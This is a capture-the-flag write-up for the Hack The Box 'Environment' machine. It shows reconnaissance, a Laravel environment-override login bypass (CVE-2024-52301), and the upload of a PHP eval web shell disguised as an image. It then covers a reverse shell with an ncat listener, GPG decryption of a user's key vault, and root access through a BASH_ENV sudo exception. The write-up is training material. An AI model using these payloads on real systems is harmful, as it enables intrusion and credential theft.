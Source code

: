 Let's scan the machine
```bash
sudo nmap -v -sC -sV 10.10.11.67 -oN ../nmap/initial
```
```Nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Save the Environment | environment.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Let's go to the website

![image](images/20250625181637.png)
<div style="page-break-after: always;"></div>

Scan for other directories
```bash
gobuster dir -u http://environment.htb/ --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![image](images/20250625182240.png)

If we go to the directory with code `405`, we will see the following:
![image](images/20250625182442.png)
![image](images/20250625182459.png)
Let's check deeper for the presence of `php, asp, aspx, jsp, html, htm` files:
```bash
dirsearch -u http://environment.htb
```
![image](images/20250628132501.png)

Let's try to log in and intercept the request

![image](images/20250628134042.png)

![image](images/20250628134112.png)

There is `&remember=False`. Let's try removing it and sending the request.

![image](images/20250628134206.png)

We can see that `remember` must be included in the request. Let's try leaving it, but instead of `True` or `False`, we'll write `111`.

![image](images/20250628134335.png)

![image](images/20250628134421.png)

There is an interesting block of code here that says `login directly as me in dev/local/preprod envs`. Further down in the code, it says that if the current environment in Laravel is `predprod`, the user automatically logs in with `user_id=1`. Let's try to find something about this on the internet.

![image](images/20250628134655.png)

![image](images/20250628134739.png)

We can see that this is `CVE-2024-52301`. Let's try to find `PoC` on `Github`:
![image](images/20250628134823.png)

This [repository](https://github.com/Nyamort/CVE-2024-52301) states that to change the current environment, you need to add `?--env=...` to the URL. In our case, we need to add `?--env=preprod`.

![image](images/20250628135142.png)

![image](images/20250628135151.png)

It is possible to upload an image to change the profile avatar. Let's try to upload an image and intercept the request:

![image](images/20250628141425.png)

We will also capture the request that loads the image when the profile is loaded:

![image](images/20250628141504.png)

>/storage/files/image.png

Let's try to load a PHP file:
```PHP
<?php eval($_GET[“cmd”]);?>
```

![image](images/20250628141706.png)

Let's change `Content-Type: application/x-php` to `Content-Type: image/jpg`, `filename=“eval-exploit.php”` to `filename=“eval-exploit.php.” ` and add some content before the PHP code to show that it is an image, for example `GIF89a`

![image](images/20250628141848.png)

![image](images/20250628141858.png)

Now let's go to the address and check if the PHP file works:
```USR
http://environment.htb/storage/files/eval-exploit.php?cmd=phpinfo();
```

![image](images/20250628142009.png)

Now let's try to download [reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php)

![image](images/20250628142143.png)

Start listening to the port and go to the URL to open the PHP file
```URL
http://environment.htb//storage/files/reverse-shell.php
```
```bash
sudo ncat -lvnp 4444
```
Find the first flag

---

Spawn a normal TTY:
```bash
python3 -c 'import pty,os,sys; pty.spawn(“/bin/bash”)'
```
Next, let's see what's interesting in `/var/www/`:

![image](images/20250628144405.png)

There is a hash for the user `Hish`:
```hash
$2y$12$------------------------------------------------------------------------------9ILcC7akZ.q641r1gi
```
In the home directory `Hish` there is a directory `backup`, which contains the file `keyvault.gpg`.

![image](images/20250628150620.png)

`.gpg` is an object in **OpenPGP** format. 

| Type                  | Description                                                                         | How to identify                                                                                                  |
| :-------------------- | :---------------------------------------------------------------------------------- | :--------------------------------------------------------------------------------------------------------------- |
| **Encrypted container** | Any file (zip, tar, txt, etc.) has been encrypted with someone's PGP key or password. | `file keyvault.gpg` outputs "data" or "PGP symmetric encrypted data" / "PGP public key encrypted session key".    |
| **Key vault**         | Contains the PGP key itself (public or private).                                    | `gpg --list-packets keyvault.gpg` will show the `public key` / `secret key` packets.                             |
Let's look at the contents of the home directory `hish`:

![image](images/20250628150917.png)

There is a directory called `.gnupg`, which contains the **secret OpenPGP keys** of `hish` itself. When a file is encrypted with a user's public key, **only** the holder of their private key can decrypt it.
Copy this directory to `/tmp/mygpg` and change the access to this directory to `700` so that the directory is inaccessible to others; otherwise, it will refuse to work.
```bash
cp -r .gnupg /tmp/mygpg
```
```bash
chmod -R 700 /tmp/mygpg
```

![image](images/20250628152112.png)

Specify a new home directory for this directory and display the secret keys.
```bash
gpg --homedir /tmp/mygpg --list-secret-keys
```

![image](images/20250628152416.png)

The private key is indeed there and **without a passphrase**. Next, we will decrypt it and write the result to `/tmp/message.txt`:
```bash
gpg --homedir /tmp/mygpg --output /tmp/message.txt --decrypt /home/hish/backup/keyvault.gpg
```
The `keyvault.gpg` file was encrypted **with hish's public key** (or symmetrically with the same password that is already in the agent). GPG found the right secret key and decrypted it.

![image](images/20250628152708.png)

Now there are 3 passwords. Let's try to connect to `hish` via SSH:

![image](images/20250628151521.png)

The password is correct
```Password
ma-------@ster!!
```
Now let's see what commands a user with `sudo` can execute:
```bash
sudo -l
```

![image](images/20250628153308.png)

`sudo` resets almost all environment variables (`env_reset`), **but** an exception `env_keep+=“ENV BASH_ENV”` was left in sudoers.
`/usr/bin/systeminfo` is just a bash script.

![image](images/20250628153511.png)

Bash help says: if a script is run non-interactively **and there is `BASH_ENV` in the environment, bash executes the contents of the specified file before the script starts**. So, it is enough to replace `BASH_ENV` so that **your code is executed as root before the script starts running**.
Let's create a malicious script:
```bash
echo ‘bash -p’ > /tmp/rootme.sh
chmod +x /tmp/rootme.sh
```
Specify it in `BASH_ENV`:
```bash
export BASH_ENV=/tmp/rootme.sh
```
Run the authorized script:
```bash
sudo /usr/bin/systeminfo
```
And we got `root` flag!
